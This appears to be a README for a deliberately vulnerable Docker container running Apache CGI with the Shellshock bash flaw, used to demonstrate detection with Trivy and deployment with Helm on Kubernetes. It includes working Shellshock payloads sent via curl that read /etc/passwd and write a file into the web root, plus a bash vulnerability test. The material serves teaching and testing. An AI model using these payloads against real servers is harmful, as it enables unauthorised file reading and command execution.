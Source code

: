 docker-shellshockable
=====================

Docker container with Apache 2 / CGI shellshock vulnerability. This builds on an original version by [Thibault Normand](https://github.com/Zenithar)

### Build

```sh
docker build -t lizrice/shellshockable:0.1.0 .
```

### Find the vulnerability with Trivy

```sh
trivy image lizrice/shellshockable:0.1.0
```

Note: this wouldn't find the vulnerability if you build the vulnerable version of bash from source

### Install on Kubernetes with Helm

```sh
helm install shell-chart shellshockable/ --values shellshockable/values.yaml
```

kubectl describe $(kubectl get pods -l app.kubernetes.io/name=shellshockable -o name)

### Port-forwarding

```sh
kubectl port-forward $(kubectl get pods -l app.kubernetes.io/name=shellshockable -o name) 8081:80
```

### Read files from the host

```sh
curl -A "() { :; }; echo \"Content-type: text/plain\"; echo; /bin/cat /etc/passwd" localhost:8081/cgi-bin/shockme.cgi
```

### Create a new page

```sh
curl localhost:8081/liz.html
# doesn't exist yet

curl -A "() { :; }; echo hello > /var/www/html/liz.html" localhost:8081/cgi-bin/shockme.cgi

# Find new file
curl localhost:8081/liz.html
```
### Misc

Get into the host:

```sh
kubectl exec -it  $(kubectl get pods -l app.kubernetes.io/name=shellshockable -o name) bash
```

Test that a version of bash is exploitable:

```sh
env x='() { :; }; echo vulnerable' bash -c "echo test"
```




Create an ingress: https://kind.sigs.k8s.io/docs/user/ingress/

